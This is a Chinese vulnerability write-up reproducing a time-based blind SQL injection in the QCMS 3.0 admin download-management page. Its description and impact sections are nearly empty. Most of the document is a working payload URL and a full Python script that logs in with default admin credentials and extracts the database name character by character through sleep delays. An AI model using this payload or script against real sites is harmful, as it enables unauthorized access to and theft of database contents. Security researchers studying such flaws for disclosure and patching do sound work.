

QCMS 3.0 sql注入漏洞
====================

一、漏洞简介
------------

二、漏洞影响
------------

QCMS 3.0

三、复现过程
------------

在后台下载管理处

构造payload

    http://www.0-sec.org/backend/down.html?title=1';select if(ascii(substr((select database()), 1, 1))-113, 1, sleep(5));%23

这里直接附上简单脚本

    # !/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author: Forthrglory
    import requests

    def getCookie():
        url = 'http://127.0.0.1/admin.php'
        data = {
            'username':'admin',
            'password':'admin'
        }

        session = requests.session()
        res = session.post(url, data)

        return requests.utils.dict_from_cookiejar(res.cookies)

    def getDatabase(url, arr, cookies):

        str = ''
        requests.session()

        for i in range(1, 11):
            for j in arr:
                data = url + '?title=1\';select if(ascii(substr((select database()), %s, 1))-%s, 1, sleep(5));%%23' % (i, ord(j))
                # print(data)
                res = requests.get(url=data, cookies=cookies)
                # print(res.elapsed.total_seconds())
                if(res.elapsed.total_seconds() > 5):
                    str += j
                    print(str)
                    break
        print('database=' + str)

    if __name__ == '__main__':
        url = 'http://127.0.0.1/backend/down.html'
        arr = []

        for i in range(48, 123):
            arr.append(chr(i))

        cookies = getCookie()
        print(cookies)
        getDatabase(url, arr, cookies)

参考链接
--------

> https://xz.aliyun.com/t/7269
